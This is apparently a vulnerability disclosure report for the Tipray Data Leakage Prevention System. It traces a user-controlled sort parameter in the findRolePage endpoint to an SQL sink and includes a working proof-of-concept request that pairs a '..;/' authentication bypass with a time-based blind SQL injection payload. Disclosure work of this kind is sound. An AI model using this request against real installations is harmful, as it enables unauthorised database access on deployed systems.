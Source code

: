 # SQL Injection Vulnerability in Tipray Data Leakage Prevention System
## Basic Overview
We have already learned about some basic information of the system developer and the reasons for authentication bypass in https://github.com/FightingLzn9/vul/blob/main/%E5%A4%A9%E9%94%90%E6%95%B0%E6%8D%AE%E6%B3%84%E9%9C%B2%E9%98%B2%E6%8A%A4%E7%B3%BB%E7%BB%9F-1.md.

To reduce your review burden, we will not repeat the details in this report.

## Vulnerability Analysis
We found a sink point in `com.trwfe.controller.RoleController#findRolePage`.

This uses the `PageVo` class. As we know from the previous reports, this class is insecure and its parameters are user-controllable.

<img width="1264" height="494" alt="image" src="https://github.com/user-attachments/assets/6524aab1-8be8-4afd-8fdf-f2b73400a88a" />

Let’s trace the `findAllPage` method here.

<img width="1856" height="1061" alt="image" src="https://github.com/user-attachments/assets/f3b5292d-60cf-4ee6-a0b3-05d514b15e2d" />

Move down to the mapper layer.

<img width="1694" height="193" alt="image" src="https://github.com/user-attachments/assets/e1073a43-5e5e-4b28-9ee1-1fa0307f5f00" />

Based on this, the following POC is constructed:
```
POST http://ip/trwfe/login.jsp/..;/role/findRolePage.do HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=BBE157F1DBA868496A6CB76724EA3D28
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

sort=1+AND+(SELECT+8234+FROM+(SELECT+SLEEP(4))test)
```

<img width="1870" height="826" alt="image" src="https://github.com/user-attachments/assets/5d9ffc63-3ab9-4e01-bac9-a53eb6850b50" />

The time-delay injection was successfully triggered. Therefore, the `findRolePage.do` interface has an SQL injection vulnerability.

Thank you for your review. Wish you a pleasant day!
